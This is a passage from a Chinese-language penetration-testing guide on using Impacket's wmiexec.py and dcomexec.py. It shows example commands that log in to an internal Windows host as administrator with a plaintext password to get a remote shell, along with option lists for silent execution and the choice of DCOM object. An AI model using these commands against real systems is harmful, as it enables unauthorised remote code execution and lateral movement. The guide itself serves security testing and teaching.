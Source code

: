 ```bash
-session-id SESSION_ID 使用登录的 SESSION 运行（无回显，不会主动调用 cmd 如 silentcommand）
-silentcommand 不运行 cmd.exe，直接运行命令
```

### wmiexec.py

可使用密码认证、hash 认证、kerberos 认证。

#### 常用命令

```bash
py -3 wmiexec.py test/administrator:1qaz@WSX@192.168.40.156
```

[![](assets/1702372846-9b4b710fc397ac6f507399d9f963637f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123309-19264cea-6bb1-1.png)

#### 常用选项

```bash
-share SHARE 设置连接的共享路径，默认 ADMIN$
-nooutput 不获取输出，没有 SMB 连接
-silentcommand 不运行 cmd.exe，直接运行命令
-shell-type {cmd,powershell} 设置返回的 Shell 类型
-com-version MAJOR_VERSION:MINOR_VERSION 设置 DCOM 版本
```

### dcomexec.py

可使用密码认证、hash 认证、kerberos 认证。

一般使用 MMC20，而且 DCOM 有时候会遇到 0x800706ba 的错误，一般都是被防火墙拦截。

#### 常用命令

```bash
py -3 dcomexec.py -object MMC20 test.com/administrator:1qaz@WSX@192.168.40.156
```

[![](assets/1702372846-bf199a3dc6586f50f7fd741e11b95a02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123320-2005f006-6bb1-1.png)

#### 常用选项

```bash
-share SHARE 设置连接的共享路径，默认 ADMIN$
-nooutput 不获取输出，没有 SMB 连接
-object [{ShellWindows,ShellBrowserWindow,MMC20}] 设置 RCE 利用的类型
-com-version MAJOR_VERSION:MINOR_VERSION 设置 DCOM 版本
-shell-type {cmd,powershell} 设置返回的 Shell 类型
-silentcommand 不运行 cmd.exe，直接运行命令
```
